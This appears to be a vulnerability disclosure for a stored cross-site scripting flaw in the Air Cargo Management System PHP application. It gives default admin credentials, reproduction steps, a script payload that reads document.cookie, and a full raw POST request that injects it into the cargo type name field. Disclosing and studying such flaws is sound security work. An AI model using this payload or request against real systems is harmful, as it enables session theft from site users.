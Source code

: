 # Air Cargo Management System v1.0 has stored cross site scripting vulnerability

BUG_Author: zihaokevinliu

Website source address:https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability url: /acms/classes/Master.php?f=save_cargo_type

POST form-data parameter name exists stored cross-site scripting

### Steps to reproduce

1.Go to the admin Login

http://localhost/acms/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on Cargo Types and Click on +Create New

3.Put Payload into the 'Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/kev6798/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /acms/classes/Master.php?f=save_cargo_type HTTP/1.1
Host: localhost
Content-Length: 754
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCoLhgpe9jLppAEd
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/acms/admin/?page=cargo_types
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=sveoba7fn4a5emtg5365vkr68o
Connection: close

------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="id"


------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="city_price"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="state_price"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="country_price"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd--
```

5.Payload will trigger when a user visits on http://localhost/acms/admin/?page=cargo_types

![image](https://github.com/kev6798/bug_report/blob/main/xss2.png)
